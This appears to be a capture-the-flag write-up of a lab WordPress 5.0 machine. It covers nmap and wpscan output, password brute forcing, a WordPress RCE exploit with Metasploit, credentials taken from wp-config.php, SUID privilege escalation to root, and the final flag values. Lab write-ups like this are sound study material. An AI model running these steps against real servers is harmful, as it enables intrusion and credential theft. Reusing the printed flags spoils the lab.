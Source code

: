 `Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 20:14 UTC`
`Nmap scan report for 10.201.60.195`
`Host is up (0.13s latency).`
`Not shown: 65531 closed tcp ports (reset)`
`PORT    STATE SERVICE     VERSION`
`22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)`
`|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)`
`|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)`
`80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))`
`|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog`
`|_http-generator: WordPress 5.0`
`| http-robots.txt: 1 disallowed entry` 
`|_/wp-admin/`
`|_http-server-header: Apache/2.4.29 (Ubuntu)`
`139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`
`445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)`
`Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Host script results:`
`|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)`
`| smb2-time:` 
`|   date: 2025-10-21T20:15:44`
`|_  start_date: N/A`
`| smb-security-mode:` 
`|   account_used: guest`
`|   authentication_level: user`
`|   challenge_response: supported`
`|_  message_signing: disabled (dangerous, but default)`
`| smb-os-discovery:` 
`|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)`
`|   Computer name: blog`
`|   NetBIOS computer name: BLOG\x00`
`|   Domain name: \x00`
`|   FQDN: blog`
`|_  System time: 2025-10-21T20:15:44+00:00`
`| smb2-security-mode:` 
`|   3:1:1:` 
`|_    Message signing enabled but not required`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 104.86 seconds`

We can see the webserver is using WordPress at a CMS.
Running the following scan
`wpscan --url http://blog.thm --enumerate u,vp,vt`

Gives us the following:

**Usernames:**
kwheel
bjoel

**Theme:**
twentytwenty

**Version:**
5.0

**External access to uploads is enabled**
http://blog.thm/wp-content/uploads/

Running Apache/2.4.29

Subdirectories:
http://blog.thm/admin

It's also important to note that xml-rpc is enabled.
"XML-RPC seems to be enabled: http://blog.thm/xmlrpc.php"

This will allow us to bruteforce logins via wpscan, as it can use the backend to authenticate.
Running wpscan with:
wpscan --url http://blog.thm/ --passwords /usr/share/wordlists/rockyou.txt --usernames users.txt

Users in users.txt:                                                                        
kwheel
bjoel

This will give us these credentials:
kwheel / cutiepie1

We can run a RCE POC via
https://github.com/ret2x-tools/poc-wordpress-5.0.0

This gives us a shell. 
www-data@blog:/var/www/wordpress$ ls
ls
index.php        wp-blog-header.php    wp-cron.php        wp-mail.php
license.txt      wp-comments-post.php  wp-includes        wp-settings.php
readme.html      wp-config-sample.php  wp-links-opml.php  wp-signup.php
wp-activate.php  wp-config.php         wp-load.php        wp-trackback.php
wp-admin         wp-content            wp-login.php       xmlrpc.php

We get the following information from wp-config.php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

/** MySQL hostname */
define('DB_HOST', 'localhost');

This tells us the DB schema, a username and password, and that the database is only hosted locally. 

Stabilize shell using 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Login to mysql
mysql -u wordpressuser -p
Enter password: LittleYellowLamp90!@

we find the wp_users table and we find the following information:

`bjoel:$P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/`

Did my best to crack this via hashcat and got absolutely nothing.
I spent about 5 hours on trying to find the entry point for privesc and truly got nothing worth noting.

Had to lookup how to finish this and just do my best to learn.

We can use /multi/http/wp_crop_rce from msfconsole as this is the same thing as that POC.
Set options and execute and get meterpreter session.
Create a shell and find SUID binaries.
There is a binary that is /usr/sbin/checker that is out of place.
We can use meterpreter to download this and analyze it with Ghidra. (this is my first time ever using it)

Decompiling this code we can find that that the assembly checks for an env variable to see if you are "admin" and then sets UID to 0. We can exploit this.


undefined8 main(void)

{
  char *pcVar1;
  
  pcVar1 = getenv("admin");
  if (pcVar1 == (char *)0x0) {
    puts("Not an Admin");
  }
  else {
    setuid(0);
    system("/bin/bash");
  }
  return 0;
}

In my amateur analysis this just checks if there is no variable set... if we set one we can run "checker."

So i set it as "export admin="kwheel"
then ran /usr/sbin/checker
Annnndd we are root.
Find user.txt:
find / -name user.txt 2>/dev/null
find root.txt:
find / -name root.txt 2>/dev/null

root: 9a0b2b618bef9bfa7ac28c1353d9f318
user: c8421899aae571f7af486492b71a8ab7

Thanks for stopping by!






















